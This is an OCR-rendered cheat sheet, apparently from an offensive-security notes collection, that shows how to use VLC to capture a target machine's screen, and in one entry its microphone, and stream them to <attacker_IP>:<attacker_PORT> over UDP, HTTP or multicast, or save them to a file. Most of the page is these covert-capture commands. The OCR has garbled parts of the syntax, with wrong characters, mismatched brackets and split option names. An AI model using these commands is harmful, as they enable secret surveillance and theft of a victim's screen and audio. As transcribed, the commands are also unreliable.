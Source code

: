 # VLC

## UDP Protocol

Start a UDP listener to the stream in a file.

```
$ vlc udp://@<PORT>

$ vlc udp://@:<PORT> :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a, ab=128,channels=2,samplerate=44100):file{dst=stream.mp4) :no-sout-rtp-sap :no-shout-standard-sap :ttl=1 :shout-keep
```

This may make the users screen flash. Lower frame rates delay the video.

```
> vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samplerate=44100):udp{dst=<attacker_IP> :<attacker_PORT>) :no-sout-rtp-sap :no-soutstandard-sap :ttl=1 :sout-keep
```

Record and stream microphone on UDP.

```
> vlc dshow:// :dshow-vdev="None" :dshow-adev="Your Audio Device"
```

## TCP Protocol

Start a HTTP listener to the stream in a file.

```
$ vlc http://<attacker_IP>:<attacker_PORT>

vlc http://<attacker_IP>:<attacker_PORT> -sout=# transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samp
rate=44100):file{dst=stream.mp4)
```

Start streaming on the target machine.

```
> vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):http{mux=ffmpeg{mux=flv),dst=:<attacker_PORT>/) :no-sout-rtp-sap :nosout-
standard-sap :ttl=1 :sout-keep
```

## Multicast Broadcast

Start a listener on attacker machine for multicast

```
$ vlc udp://@multicastaddr:<attacker_PORT>
```

Broadcast stream to a multicast address.

```
$ vlc screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samplerate=44100):udp{dst= multicastaddr:<attacker_PORT>) :no-sout-rtp-sap :no-soutstandard-sap :ttl=1 :sout-keep
```

## Save and record the screen in a file

```
C:\> vlc.exe screen:// :screen-fps=25 :screen-caching=100 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samplerate=44100):file{dst=C:\\Program Files (x86)\\VideoLAN\\VLC\\stream.mp4) :no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep
```